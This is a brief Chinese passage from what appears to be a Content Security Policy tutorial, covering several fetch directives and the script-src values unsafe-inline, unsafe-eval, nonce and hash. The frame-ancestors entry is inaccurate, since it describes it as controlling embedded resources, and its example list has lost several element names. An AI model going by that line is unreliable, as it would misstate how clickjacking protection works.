frame-ancestors 嵌入的外部资源（比如、<iframe>、和）
connect-src HTTP 连接（通过 XHR、WebSockets、EventSource等）
worker-src worker脚本
manifest-src manifest 文件

**script-src有如下属性值：**

unsafe-inline 允许执行页面内嵌的<script>标签和事件监听函数
unsafe-eval 允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval和Function等函数
nonce 每次HTTP回应给出一个授权token，页面内嵌脚本必须有这个token，才会执行
hash 列出允许执行的脚本代码的Hash值，页面内嵌脚本的哈希值只有吻合的情况下，才能执行